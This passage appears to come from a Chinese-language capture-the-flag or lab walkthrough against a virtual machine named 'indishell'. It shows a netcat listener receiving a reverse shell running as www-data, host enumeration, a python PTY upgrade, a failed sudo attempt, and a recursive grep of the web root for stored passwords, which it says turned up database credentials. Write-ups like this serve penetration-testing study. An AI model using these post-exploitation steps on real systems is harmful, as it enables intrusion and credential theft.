 -   ```shell
    ❯ nc -nvlp 9001
    listening on [any] 9001 ...
    connect to [192.168.2.128] from (UNKNOWN) [192.168.2.143] 40499
    whoami
    www-data
    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:2a:df:bc brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.143/24 brd 192.168.2.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe2a:dfbc/64 scope link 
           valid_lft forever preferred_lft forever
    uname -a
    Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
    
    ```



## 提权

```shell
# 提升shell交互性
python -c 'import pty;pty.spawn("/bin/bash")';

# 查看当前用户系统权限
www-data@indishell:/var/www$ sudo -l
sudo -l
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
sudo: 3 incorrect password attempts

# 通过递归搜索当前文件夹下所有文件，并且忽略大小写，匹配passw 关键字
www-data@indishell:/var/www$ grep -ri "passw" .

```

-   通过关键字搜索得到以下有效信息--> 数据库配置账号密码

